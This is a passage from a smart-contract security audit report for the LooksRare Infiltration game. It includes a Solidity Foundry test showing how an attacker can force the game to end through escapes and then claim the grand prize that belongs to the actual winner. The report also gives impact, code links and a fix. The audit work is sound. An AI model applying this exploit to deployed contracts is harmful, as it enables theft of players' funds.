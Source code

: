 ```solidity
        (uint16 activeAgents, uint16 woundedAgents, , uint16 deadAgents, , , , , , , ) = infiltration.gameInfo();
        console.log("Active", activeAgents);
        assertEq(activeAgents, 1);
        // This will end the game instantly.
        //owner should not be able to start new round
        vm.roll(block.number + BLOCKS_PER_ROUND);
        vm.prank(owner);
        vm.expectRevert();
        infiltration.startNewRound();

        //Okay so the game is over, makes sense!
        // Now user1 has the only active AGENT, so he should claim the grand prize!
        // BUT user1 cannot
        vm.expectRevert(IInfiltration.NotAgentOwner.selector);
        vm.prank(user1);
        infiltration.claimGrandPrize();

        //instead the attacker can:
        vm.prank(attacker);
        infiltration.claimGrandPrize();
        
```

## Impact

Attacker can steal the grand price of the actual winner by force ending the game trough escapes.

This also introduces problems if there are other players with wounded agents but lower < 50 TokenID, they can claim prices 
for wounded agents, which will break parts of the game logic.

## Code Snippet

https://github.com/sherlock-audit/2023-10-looksrare/blob/main/contracts-infiltration/contracts/Infiltration.sol#L589-L592

https://github.com/sherlock-audit/2023-10-looksrare/blob/main/contracts-infiltration/contracts/Infiltration.sol#L656-L672
## Tool used

Manual Review

## Recommendation

Start a new Round before the real end of game to clear all wounded agents and reorder IDs.



## Discussion
